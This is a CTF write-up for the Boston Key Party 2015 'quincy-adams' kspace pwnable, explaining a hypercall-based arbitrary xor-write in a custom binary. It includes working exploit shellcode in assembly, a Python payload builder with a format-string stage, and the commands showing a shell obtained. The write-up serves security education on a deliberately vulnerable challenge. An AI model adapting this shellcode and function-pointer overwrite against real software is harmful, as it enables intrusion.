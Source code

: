 ```yaml
---
title: 'quincy-adams (kspace)'
author:
  - Brian Pak (Cai)
layout: post
categories:
  - Pwn
ctf: Boston Key Party
year: 2015
---
```

This is a write-up for **quincy-adams** challenge, which is the second part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-adams-kspace-write-up/)_.

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (kspace flag) 54.165.91.92 8899

The goal is to get "kspace" flag by exploiting the kernel space process.

Before we dive in, let's look at what is really going on.

We can think of each process (tz, kspace, uspace) as a separate privilege ring, as their name suggest.

  * **tz** (TrustZone?) &mdash; a "hypervisor" layer that implements the "hypercalls" (we haven't really reversed this too much).
  * **kspace** &mdash; a kernel layer that implements the "syscalls"; it maintains the files array and performs the actual tasks such as listing files, removing files, sleeping, and cat'ing (open & read).
  * **uspace** &mdash; a user layer that implements the interface that the user interacts with; it parses the commands and calls the appropriate "syscalls".

We would start from the **uspace** to get an arbitrary code execution on **uspace** process (as we did in previous write-up), then exploit the **kspace** to allow us to perform an attack against **tz**. Shared memory is arranged by **tz**, such that each layer will get its own memory "space" to pass the arguments to {sys, hyper}calls.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_0.png" lightbox="quincy-adams" title="kspace syscall_handler (sub_401180)" %}

We can see that the syscall numbers, which is stored on **user_space[0]**, match with what we saw on **uspace**.

  * **do_ls** loops through the **file_array** list and prints out the name of the file.
  * **do_rm** finds the file in **file_array** with a given filename, and deletes it.
  * **do_create** adds a file into **file_array** up to 16 files. It looks for the spot/bin in the array by checking if the filename is null.
    This also initializes the file structure:
      * **open_file**, **read_file**, and **delete_file** are the function pointers.
        * Note that **syscall 95** and **99** are **sleep** and **exit**, respectively, which are not that interesting :p
        * **do_read** finds the file in **file_array** with a given filename, and if the file is "open", its content is copied to the output buffer (2nd argument).
        * **do_open** finds the file in **file_array** with a given filename, and changes its open state.
            * Only up to 9 files can be open simultaneously.
  {% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_1.png" lightbox="quincy-adams" title="file struct" %}

There is a bug with file creation and deletion, where the number of files in the list gets incremented when creating a file, but it does not get decremented when being deleted. Thus, we can only create up to 16 files and we can't create any more file even if we delete some. This didn't really affect the exploitation, however :)

If you followed carefully, you'd have noticed that we didn't go over the mysterious **syscall 92** (sub_402380).

This operation, unlike other ones, does not process the user input/arguments here. Instead, it forwards these arguments to **tz** via the "hypercall".

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_2.png" lightbox="quincy-adams" title="syscall 92 (kspace)" %}

To be more precise, the 3 arguments are stored starting at **kernel_space + 48**, and the hypercall takes 3 arguments of the **hypercall number (92)**, ****, and the **pointer to the arguments (kernel_space + 48)**.

So what does this hypercall do? Let's take a look at **tz** binary now.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="quincy-adams" title="hypercall handler (tz)" %}

As we can see above, **sub_401560** is the hypercall 92 handler.
It doesn't really do anything too fancy. The function performs a very simple "encryption" of data.


{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_4.png" lightbox="quincy-adams" title="hypercall 92 handler" %}

It basically **xor**'s the bytes at **src** with the **key** "charlestown isn't that skeytchy." and stores the result to **dest**.

There is no restriction on the memory address for **dest** (other than checking if it's 0x100000000), which allows us to do <span style="text-decoration: underline;">arbitrary (xor) write</span>. By preparing the **src** buffer with already xor'd values, we can write any value we want to any memory location.

So, we can use this capability(?) to write useful data structure (such as a function pointer) to gain arbitrary code execution!

Just like **uspace**, **kspace** has NX disabled, so we can put our shellcode somewhere and jump to it.

&nbsp;

The attack plan is as follows:

  1. Create a file, with the content being the shellcode we want to run as kernel.
  2. Overwrite a function pointer (open_file) for the first file (which is the one that we just created in step 1) with the pointer to our shellcode.
      * The **file_array** is located at kernel_space + 0x3E800 == **0x90003e800**.
      * According to our **struc_files** struct, file_array **+ 0x8** points to the **files** array.
      * Thus, the first file structure will be located at **0x90003e808** and according to our **struc_file**, its content is located at the offset **+0x9**.
      * The first file's content == **shellcode** == 0x90003e800 + 0x8 + 0x9 == **0x90003e811**.
      * The first file's **open_file** function pointer is at **+0x118** from the file structure, which makes its location **0x90003e920**.
  3. Invoke a syscall #93, which opens a file.
      * At this point, we will tell it to open our file which has corrupted **open_file** function pointer &#8212; thus, calling into our shellcode.

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
  [BITS 64]
  section .text
  global _start
  _start:

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 92 (encrypt)
  push qword [rel data]       ; 0x90003e811 (xor'd)
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 92         ; syscall #92
  mov qword [rax + 8], rsp    ; src (ptr to data)
  mov rcx, [rel dst]          ;
  mov qword [rax + 16], rcx   ; dst (0x90003e920)
  mov qword [rax + 24], 0x8   ; len

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  ; sleep(1)
  mov rdi, 1
  mov rax, 0x400C30
  call rax

  ; sem_lock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401A90
  call rax

  ; syscall 93 (open)
  push qword [rel data]       ; now has 0x90003e811
  mov rax, [0x602498]         ; user_space
  mov qword [rax], 93         ; syscall #93
  lea rcx, [rax + 16]         ; (using user_space + 16 as scratch)
  mov qword [rax + 8], rcx    ; filename
  mov rcx, [rel lol]
  mov qword [rax + 16], rcx   ; filename &lt;- &("lol")

  ; sem_unlock(sem_io, 0)
  mov edi, [0x6024a8]
  xor esi, esi
  mov eax, 0x401AC0
  call rax

  data:
  dq 0x7473656572628072   ; 0x90003e811 ^ 0x7473656c72616863 (key)
  dst:
  dq 0x90003e920
  lol:
  db 'lol',0
{% endhighlight %}

<br />

Note that since we are using syscal #92 (encrypt) to perform an arbitrary write to memory, we have to "encrypt" the value we want to write beforehand such that it will get "decrypted" when it writes. The filename we used is "lol".

<p class="filename">pwn_kspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

Our exploit code looks fairly similar, but we now create a file called &#8216;lol' first with the shellcode. (The shellcode is the same as what we used for uspace.)

Then, we trigger the bug with our stage1 code.

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_kspace.py
$ (cat ../kspace/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
kspace
{% endhighlight %}
<br />

So far, we have triggered a **uspace** bug to call a syscall (92) in **kspace**, which does a hypercall (92) in **tz**, which allowed us to perform an arbitrary memory write in **kspace **memory.

Amusingly, we will be using the same primitive to get a shell under **tz** context in the next series.

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]